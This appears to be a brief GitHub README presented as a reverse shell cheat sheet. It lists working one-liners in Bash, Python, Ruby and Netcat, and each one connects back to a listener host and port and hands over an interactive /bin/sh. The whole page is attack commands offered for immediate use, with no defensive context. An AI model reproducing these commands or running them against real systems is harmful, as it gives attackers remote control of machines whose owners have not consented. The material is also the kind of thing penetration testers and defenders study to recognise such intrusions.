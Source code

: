 # CheetSheet
I'ts most useful Reverse Shell CheetSheet

<h2>Bash</h2>

`bash -i >& /dev/tcp/[LocalHost]/[LocalPort] 0>&1`

<h2>Python</h2>

<p>This was tested under Linux / Python 2.7.</p>

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

<h2>Ruby</h2>

`ruby -rsocket -e'f=TCPSocket.open("[LocalHost]",[LocalPort]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

<h2>Netcat</h2>

`nc -e /bin/sh [LocalHost] [LocalPort]`
